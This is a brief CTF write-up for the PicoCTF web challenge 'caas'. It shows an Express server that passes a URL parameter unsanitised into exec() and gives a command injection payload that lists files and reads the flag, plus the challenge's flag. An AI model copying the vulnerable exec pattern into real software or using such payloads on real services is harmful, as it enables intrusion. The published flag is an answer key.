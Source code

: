 ```yaml
---
title: PicoCTF - caas
tags: [PicoCTF, CTF, Web]

category: "Security > Practice > PicoCTF > Web"
---
```


# PicoCTF - caas
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Command Injection](https://lab.feifei.tw/practice/ci/l1.php)

## Source code
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```
## Recon
直覺是command injection

## Exploit - Easy Command Injection
Payload: `/cowsay/123;ls;cat falg.txt`
Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
## Reference
[ CaaS | Web Category | PicoCTF | CTF For beginners ](https://youtu.be/ZP3kLVaMQIE)